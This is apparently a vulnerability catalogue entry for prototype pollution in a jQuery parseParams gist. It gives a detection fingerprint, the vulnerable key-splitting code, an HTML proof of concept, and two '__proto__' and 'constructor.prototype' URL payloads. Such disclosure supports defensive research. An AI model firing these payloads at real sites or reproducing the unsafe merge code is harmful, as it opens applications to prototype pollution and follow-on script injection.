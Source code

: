 ## jQuery parseParams

URL: https://gist.github.com/jhjguxin/10971155

### JS Fingerprint
```
(typeof $ !== 'undefined' && typeof $.parseParams !== 'undefined')
```

### Vulnerable code fragment

https://gist.github.com/jhjguxin/10971155#file-jquery-parseparams-js-L16-L84

```js
    $.parseParams = function (query) {
        // recursive function to construct the result object
        function createElement(params, key, value) {
            key = key + '';
            // if the key is a property
            if (key.indexOf('.') !== -1) {
                // extract the first part with the name of the object
                var list = key.split('.');
                // the rest of the key
                var new_key = key.split(/\.(.+)?/)[1];
                // create the object if it doesnt exist
                if (!params[list[0]]) params[list[0]] = {};
                // if the key is not empty, create it in the object
                if (new_key !== '') {
                    createElement(params[list[0]], new_key, value);
                } else console.warn('parseParams :: empty property in key "' + key + '"');
            } else
            ...
            {
                if (!params) params = {};
                params[key] = value;
```

### PoC
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
<script src="https://gist.githack.com/jhjguxin/10971155/raw/f5a8625d868cca305387252dd3293864868d455d/jquery.parseparams.js"></script>
<script>
  $.parseParams(location.href);
</script>
```

```
?__proto__.test=test
?constructor.prototype.test=test
```
